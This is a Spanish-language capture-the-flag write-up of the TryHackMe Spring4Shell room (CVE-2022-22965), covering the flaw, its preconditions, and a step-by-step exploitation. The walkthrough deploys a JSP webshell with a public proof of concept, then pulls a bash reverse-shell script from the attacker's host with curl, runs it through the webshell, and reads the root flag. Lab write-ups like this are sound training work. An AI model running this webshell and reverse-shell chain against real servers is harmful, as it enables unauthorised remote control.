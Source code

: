 ```yaml
---
layout: single
author_profile: true
title: THM Spring4Shell
excerpt: "Vamos a resolver la maquina Spring4SHell de TryHackMe. ¡Let's hack!"
date: 2022-04-13
classes: wide
header:
  teaser: /assets/images/spring4shell/inicio.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - Writeup
  - Spring4shell
---
```


<p align="center">
<img src="/assets/images/spring4shell/inicio.png">
</p>

¡Hola!
En esta ocasión vamos a hablar de la maquina **Spring4shell**. 

[TryHackMe](https://tryhackme.com/) lanzó hace unas semanas esta máquina para aprender acerca de una de las vulnerabilidades más sonadas del momento.

El impacto de la vulnerabilidad asciende al nivel de que, [piratas informáticos](https://backtrackacademy.com/articulo) sacaron provecho de este acontecimiento para ejecutar el malware de botnet MIRAI en Singapur, descargando el programa malicioso en la carpeta `/tmp` y ejecutarlo, luego de un cambio de permisos bajo el comando `chmod`.

Vamos a ver un poco de la vulnerabilidad, limitaciones, explotación y remediaciones.

## VULNERABILIDAD

En marzo de 2022 se hace [pública](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965) la vulnerabilidad de **ejecución remota de comandos** en el marco de Java Spring, específicamente en `Spring Cloud Functions` y `Spring Core`, generando un gran impacto en el framework.

El mundo de **Spring Framework** presenta una vulnerabilidad de ejecución remota de comandos, a través de una _webshell_ la cual es posible luego de forzar a escribir un archivo de extensión `.jsp` en el servidor web.

El principal **riesgo** de el éxito en la explotación de esta vulnerabilidad se presenta en el potencial _escalamiento de privilegios_ para lograr un acceso total al servidor víctima y a la infraestructura de la organización afectada por el ataque.

## LIMITACIONES

Las condiciones para poder explotar la vulnerabilidad **Spring4shell** son las siguientes:

* JDK 9+.
* Spring Framework (<5.2 / 5.2.0-19 / 5.3.0-17).
* Apache Tomcat como servidor de Spring, empaquetado como WAR.
* Las dependencias spring-webmvc y/o spring-webflux como componentes del marco de Spring.
* Uso de hacktools.

## EXPLOTACIÓN

Para realizar la máquina, creamos un directorio y a su vez subdirectorios para organizar la información necesaria.

```zsh
❯ mkdir spring4shell
❯ cd !$
cd spring4shell
❯ mkdir nmap exploit
```

Realizamos un **reconocimiento** por medio de ping, identificando por el TTL (Time To Live) que la maquina es _Linux_.

```zsh
❯ ping -c 1 10.10.25.142
PING 10.10.25.142 (10.10.25.142) 56(84) bytes of data.
64 bytes from 10.10.25.142: icmp_seq=1 ttl=63 time=195 ms

--- 10.10.25.142 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 194.521/194.521/194.521/0.000 ms
```

Hacemos un **escaneo de puertos** para detectar cuales de estos están abiertos para identificar vulnerabilidades en los mismos.

```zsh
❯ sudo nmap -p- --open -sS --min-rate 5000 10.10.25.142 -n -Pn -oG inicial
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:28 -05
Nmap scan report for 10.10.25.142
Host is up (0.31s latency).
Not shown: 52759 filtered tcp ports (no-response), 12773 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Luego de identificar los puertos **22**, **80** y **8080**, se procede a detectar servicios y versiones activos.

```zsh
❯ sudo nmap -p22,80,8080 -sCV 10.10.25.142 -n -Pn -oG servicios
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:35 -05
Nmap scan report for 10.10.25.142
Host is up (0.27s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:92:70:6c:b6:df:1f:0b:45:ed:42:8d:b6:38:cc:67 (RSA)
|   256 18:af:36:34:c9:2e:a4:6f:7a:27:31:e8:ef:6c:84:fb (ECDSA)
|_  256 78:a6:1c:8a:16:5e:a6:29:29:a9:99:d0:66:9c:5e:06 (ED25519)
80/tcp   open  http    nginx 1.20.2
|_http-title: Vulnerable
|_http-server-header: nginx/1.20.2
8080/tcp open  http    nginx 1.20.2
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1260  03-Apr-2022 02:30  exploit.zip
|_
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.20.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el navegador accedemos a la IP bajo el puerto 8080 y procedemos a descargar el archivo **exploit.zip**.

<p align="center">
<img src="/assets/images/spring4shell/exploitzip.png">
</p>

Movemos el archivo a nuestra carpeta y procedemos a descomprimir el archivo con la utilidad `unzip`.

```zsh
❯ mv ~/Descargas/firefox/exploit.zip .
❯ unzip exploit.zip
Archive:  exploit.zip
[exploit.zip] exploit.py password: 
  inflating: exploit.py              
❯ ls
 exploit.py   exploit.zip
```

La información del script descargado se puede obtener ingresando al GitHub de [BobTheShoplifter](https://github.com/BobTheShoplifter/Spring4Shell-POC).

Procedemos a ver el funcionamiento del script.

```python
❯ python3 exploit.py
usage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url
exploit.py: error: the following arguments are required: url
```

Ahora ejecutamos el script con la URL victima (_FILENAME_, _PASSWORD_ y _DIRECTORY_ son opcionales).

```python
❯ python3 exploit.py http://10.10.25.142/
Shell Uploaded Successfully!
Your shell can be found at: http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=whoami
```

Como indica la salida del script, la webshell ha sido cargada en el servidor con éxito, por lo tanto, ya tenemos la **capacidad** de ejecutar comandos de manera remota.

<p align="center">
<img src="/assets/images/spring4shell/vulnerable.png">
</p>
<p align="center">
<img src="/assets/images/spring4shell/intrusion.png">
</p>

Ahora vamos a subir una **reverseshell** para ganar acceso a la maquina!

Crearemos un archivo `shell.sh`.

```zsh
nano shell.sh

#!/bin/bash
bash -i >& /dev/tcp/10.9.3.40/1234 0>&1
```

Luego de crear el archivo, vamos a cargar este al servidor vulnerable, por medio de un servidor local de python.

```zsh
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ejecutaremos en el navegador la siguiente **URL** para cargar nuestra shell en la carpeta `/tmp` de la víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=curl http://10.9.3.40:8000/shell.sh -o /tmp/shell.sh

<p align="center">
<img src="/assets/images/spring4shell/shell.png">
</p>

Nuestra shell se encuentra ahora en el servidor vulnerable!

Vamos a ponernos en escucha con la utilidad netcat, en esta ocasión bajo el puerto **1234**.

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

Procedemos a ejecutar el archivo en el servidor víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=bash /tmp/shell.sh

<p align="center">
<img src="/assets/images/spring4shell/admin.png">
</p>

Como se puede ver en la imagen anterior, hemos logrado obtener una **shell** en la maquina! 

Ahora vamos a realizar un _tratamiento_ de la TTY, para lograr una mayor fluidez en la consola, para ello vamos a ejecutar los siguientes comandos iniciando en la maquina víctima.

```zsh
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

Luego de que logramos una terminal fluida, vamos a buscar la **flag** y leerla!

En esta ocasión solo tenemos una **flag**.

Solo mostraré los primeros 10 dígitos de está.

```zsh
root@spring4shell:/# ls /root
flag.txt
root@spring4shell:/# head -c 10 /root/flag.txt ; echo
THM{NjAyNz
```

**¡Ya está!** 

<p align="center">
<img src="/assets/images/spring4shell/finish.png">
</p>


Por último, les recomiendo **actualizar** sus frameworks de Spring o generar controles pertinentes para que sus sistemas no sean vulnerables!

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
